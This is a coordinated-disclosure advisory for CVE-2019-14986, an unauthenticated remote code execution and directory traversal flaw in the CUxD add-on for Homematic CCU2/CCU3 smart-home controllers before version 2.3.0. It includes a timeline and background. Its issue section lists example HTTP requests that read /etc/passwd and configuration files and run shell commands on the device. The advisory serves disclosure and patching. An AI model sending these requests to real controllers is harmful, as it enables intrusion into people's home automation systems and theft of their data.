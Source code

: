 ```yaml
---
layout: post
title:  "CVE-2019-14986 eQ-3 Homematic CCU2 and CCU3 with the 'CUxD' AddOn version prior 2.3.0 installed allows administrative operations by unauthenticated attackers with access to the web interface, because features such as File-Browser and Shell Command (as well as 'Set root password') are exposed"
datetime: 2019-08-12 20:00:00 MEST
last_modified_at: 2019-08-13 20:45:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14986
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the 'CUxD' AddOn version prior 2.3.0 installed allows administrative operations by unauthenticated attackers with access to the web interface, because features such as File-Browser and Shell Command (as well as "Set root password") are exposed
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 07.05.2019
  - Developer of 'CUxD' AddOn confirmation: 08.05.2019
  - Affected 'CUxD' AddOn version: 2.2.0 and prior
  - 'CUxD' AddOn patched since version: 2.3.0

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The general emergency management functions can be accessed via the URL "http://CCU-IP-Adresse/addons/cuxd/maintenance.html". For example, all processes currently started on the CCU can be displayed here. A great advantage is that this page can be called up much faster than the WebUI and that even after a crash of the ReGaHss service, the WebUI or the CUxD, this website can still be accessed via web browser with all the functions offered. A CCU restart from a distance is also possible in case of problems. The last item "Shell command" can be used to start any CCU shell commands, the output takes place in a separate browser window.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

'CUxD' is the most popular AddOn for Homematic CCU.<br>
While analyzing the CCU web interface based on given page files in file system path /www and the 'CUxD' AddOn management functions, this is another Improper Access Control resulting into Remote Code Execution and Directory Traversal vulnerability, if 'CUxD' AddOn prior to version 2.3.0 is installed.<br>
This vulnerability can be exploited by unauthenticated attackers with access to the web interface, because CUxD administration interface can be secured by a basic authentication, but this is not forced during setup and most installations are still unprotected.<br>

The CUxD administration interface provides several service functions and the following HTTP requests in Web Browser illustrates the attack vectors:

Build-in File-Browser for Directory Traversal:
```
http://1.2.3.4/addons/cuxd/index.ccc?file=%2fetc%2fpasswd
http://1.2.3.4/addons/cuxd/index.ccc?file=%2fusr%2flocal%2fetc%2fconfig%2fhomematic.regadom
http://1.2.3.4/addons/cuxd/index.ccc?file=%2ftmp%2fevent%2fsubscriber.list
```
Remote Code Execution via "Shell command" function:
```
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=ls+-l+/etc
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/etc/passwd
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/usr/local/etc/config/homematic.regadom
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/tmp/event/subscriber.list
```

Since CUxD version 2.3.0 this access is protected by default with a valid user session.<br>
The user must explicitly disable the protection or can soften it, which is not a good idea.

# CVE

[CVE-2019-14986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14986)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
